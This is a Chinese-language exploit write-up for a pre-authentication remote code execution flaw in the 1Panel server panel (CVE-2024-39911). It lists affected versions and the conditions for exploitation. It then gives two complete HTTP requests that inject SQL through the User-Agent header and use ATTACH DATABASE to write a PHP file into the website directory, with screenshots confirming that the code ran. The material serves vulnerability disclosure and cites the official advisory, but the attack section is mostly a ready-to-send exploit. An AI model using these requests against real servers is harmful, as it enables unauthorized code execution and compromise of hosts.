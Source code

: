 # 1Panel面板最新前台RCE漏洞(CVE-2024-39911)

**1Panel 是新一代的 Linux 服务器运维管理面板，用户可以通过 Web 图形界面轻松管理 Linux 服务器，实现主机监控、文件管理、数据库管理、容器管理等功能。且深度集成开源建站软件 WordPress 和 Halo.**

## 0x1 测试版本

专业版 v1.10.10-lts
社区版 v1.10.10-lts
1panel/openresty:1.21.4.3-3-1-focal

## 0x2 影响范围

网站监控功能影响 == 1panel/openresty:1.21.4.3-3-1-focal
WAF功能影响 <= 1panel/openresty:1.21.4.3-3-1-focal

## 0x3 题外话

具体测试/发现过程在 `https://blog.mo60.cn/index.php/archives/1Panel_SQLinjection2Rce.html` 有兴趣的大佬们可以看看

## 0x4 网站监控功能GetShell

利用条件:

- 专业版,并开启网站监控功能
- 关闭waf功能
- 安装有1P-openresty容器且搭建有php环境网站

默认网站路径格式如下，这个路径是在op容器里面的路径

```
/www/sites/网站代号(默认为域名)/index/
```



通过sql注入导出文件到网站路径下

```yaml
GET / HTTP/1.1
Host: 192.168.99.6
User-Agent: ua', 'blog.mo60.cn', 5201314, '', '', 1, '2024-06-09 08:16:52', 1817921010.847, '/AAAAAAA', 52014, '2025-06-09', '16', '', '', 'Linux', 'edge', 'pc', '', '');ATTACH DATABASE '/www/sites/index/index/mo60.cn.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?= md5("blog.mo60.cn"); ?>');#
```



然后来到网站路径下可以看到我们写入的文件

[![image](../../images2/338056404-4c64d116-6187-4661-8e9e-d3ae21b189bd.png)

访问发现成功输出blog.mo60.cn 的md5值，成功执行代码

[![image](../../images2/338056240-52bc1681-bba4-4e50-bca5-3a1a2821eb8f.png)

## 0x5 Waf功能

利用条件:

- 开启waf功能
- 安装有1P-openresty容器且搭建有php环境网站

发送后即可成功写入文件

```yaml
GET /.git/config HTTP/1.1
Host: 192.168.99.6
User-Agent: blog.mo60.cn',"args", "sqlInjectA", "", "YmxvZy5tbzYwLmNu", "blog.mo60.cn", 0, "deny", 0, 1);ATTACH DATABASE '/www/sites/index/index/mo60.cn.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?= md5("blog.mo60.cn"); ?>');#
Connection: close
```



## 漏洞来源

- https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-7m53-pwp6-v3f5
